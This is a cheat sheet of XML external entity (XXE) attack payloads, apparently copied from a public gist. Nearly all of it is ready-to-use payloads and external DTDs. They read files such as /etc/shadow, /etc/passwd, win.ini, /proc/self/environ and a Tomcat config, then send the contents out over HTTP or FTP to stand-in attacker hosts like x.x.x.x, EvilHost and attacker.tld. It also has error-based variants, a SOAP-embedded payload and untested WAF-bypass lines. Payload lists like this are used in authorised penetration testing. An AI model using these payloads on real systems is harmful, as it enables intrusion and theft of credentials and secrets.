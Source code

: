 # XXE Cheatsheet

From:<https://gist.githubusercontent.com/staaldraad/01415b990939494879b4/raw/25cff41582552aee47b06526d568f5785af67deb/XXE_payloads> 

### Vanilla, used to verify outbound xxe or blind xxe
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>
```

### OoB extraction
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

External dtd:
```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```

### OoB variation of above (seems to work better against .NET)
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>
```
External dtd:
```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```

### OoB extraction
```
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
]>
```
External dtd:
```
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">
```

### OoB extra ERROR -- Java
```
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>
```
External dtd:
```
<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;
```

### OoB extra nice
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
```

External dtd:
```
<!ENTITY all "%start;%stuff;%end;">
```

### File-not-found exception based extraction
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>
```
External dtd:
```
<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">
```
* You might need to encode this % (depends on your target) as: `&#x25;`

### FTP
```
<?xml version="1.0" ?>
<!DOCTYPE a [ 
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>
```
External dtd:
```
<!ENTITY % d SYSTEM "file:///proc/self/environ">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```

### Inside SOAP body
```
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

### Untested - WAF Bypass
```
<!DOCTYPE :. SYTEM "http://"
<!DOCTYPE :_-_: SYTEM "http://"
<!DOCTYPE {0xdfbf} SYSTEM "http://"
```


